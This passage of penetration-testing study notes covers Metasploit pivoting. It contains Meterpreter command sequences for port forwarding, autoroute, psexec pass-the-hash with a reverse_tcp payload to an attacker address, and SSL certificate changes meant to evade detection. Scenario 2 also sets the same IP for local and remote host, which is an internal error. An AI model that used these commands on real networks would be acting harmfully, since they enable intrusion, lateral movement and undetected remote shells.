 Let's clean the pivoting configuration: `jobs -K`, `route flush`.

Let's try to add a port forwarding rule between our local machine and the exploited box.
`portfwd add -l 8080 -p 80 -r 10.10.10.200`: to create a binding.
Now we can try to access to the web server on the exploited box using our local browser navigating to the address `127.0.0.1:8080`.

### Exploitation Through Pivoting - Study Guide

(06/16) Once we have captured the LM/NTLM password hashes, if the same user with the same password exists on other machines, we should be able to get access to all of them through the pass-the-hash technique.
Once exploited a new (internal) host, we can start over the Post Exploitation process.

### Exploitation via Pivoting - Video

Assume we already have exploited the victim1 (`10.10.10.15`) in the subnet1 (`10.10.10.15/24`).
1. Scenario 1: we want that the victim2 (`10.10.11.11`) present in the subnet2 (`10.10.11.0/24`), connects with our attacker machine (`66.176.44.100`) through a reverse connection. This is possible if the subnet2 can communicate with the Internet.
2. Scenario 2: suppose that the subnet2 cannot communicate with the Internet, but it can communicate with the victim1. In this case, we will configure the pivoting attack in order to forward all the communication through the Meterpreter session on victim1.
In particular, we want to exploit the victim2 machine through pass-the-hash technique.

1. Scenario 1:
`background`, `use /post/multi/manage/autoroute`, `show options`, `set SUBNET 10.10.11.0`, `set SESSION 1`, `run`, `autoroute -p`: to add a route to the subnet2.
`use exploit/windows/smb/psexec`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `set SMBUSER <Username>`, `set SMBPASS <LMHash>:<NTLMHash>`, `set LHOST 66.176.44.100`, `set RHOST 10.10.11.11`, `exploit`: to run the attack. Now we have a direct connection established between our attacker machine and the victim2.

2. Scenario 2:
We want to configure a proxy pivoting attack, in order to run exploits on machines that we cannot reach from external networks.
`background`, `use /post/multi/manage/autoroute`, `show options`, `set SUBNET 10.10.10.0`, `set SESSION 1`, `run`, `autoroute -p`: to add a route to the subnet1.
`use exploit/windows/smb/psexec`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `set SMBUSER <Username>`, `set SMBPASS <LMHash>:<NTLMHash>`, `set LHOST 10.10.10.15`, `set RHOST 10.10.10.15`, `exploit`: to run the attack. Now we have a direct connection established between the victim1 and the victim2.

### Meterpreter SSL Certificate Impersonation and Detection Evasion - Video

ServerHello packet contains SSL certificate information and it is passed to the client in clear text over the wire. It is these randomly generated (by Metasploit with default Meterpreter options) SSL certificate strings that will likely flag our payload as suspicious traffic and potentially disrupt our operations.

In regards to Meterpreter and payloads, we can configure our own SSL certificates for our own payloads and handler, which will encrypt our traffic making it harder to detect on the wire.
